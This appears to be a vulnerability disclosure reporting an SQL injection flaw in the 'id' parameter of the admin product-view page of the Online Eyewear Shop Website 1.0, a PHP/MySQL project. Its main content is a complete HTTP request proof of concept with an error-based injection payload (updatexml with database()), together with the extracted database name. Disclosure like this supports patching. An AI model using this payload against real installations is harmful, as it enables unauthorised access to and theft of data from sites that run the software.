 ## Online Eyewear Shop Website has a front-end SQL injection vulnerability

## Affected version: 
Online Eyewear Shop Website - 1.0

## Software:
https://www.sourcecodester.com/php/16089/online-eyewear-shop-website-using-php-and-mysql-free-download.html

## Vulnerability File:
http://localhost/oews/admin/?page=products/view_product

## Description:
Online Eyewear Shop Website1.0 has a SQL injection attack in /oews/admin/?page=products/view_product, and the attack parameter is id. Attackers can exploit this vulnerability to directly obtain sensitive information from the server.

Status: CRITICAL

POC
```
GET /oews/admin/?page=products/view_product&id=2%27%20and%20updatexml(1,concat(0x7e,(database())),3)--%20q HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=af5dsp386jat1uspen8v4e8hhq
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```

Get the database name directly through the error report: oews_db

![CleanShot 2024-10-09 at 11 34 39@2x](https://github.com/user-attachments/assets/b540107f-1137-454d-84eb-5099820dae61)


## Code Analysis

![CleanShot 2024-10-09 at 11 35 45@2x](https://github.com/user-attachments/assets/8c1db128-29b4-4b67-93c1-7edac544cfa4)


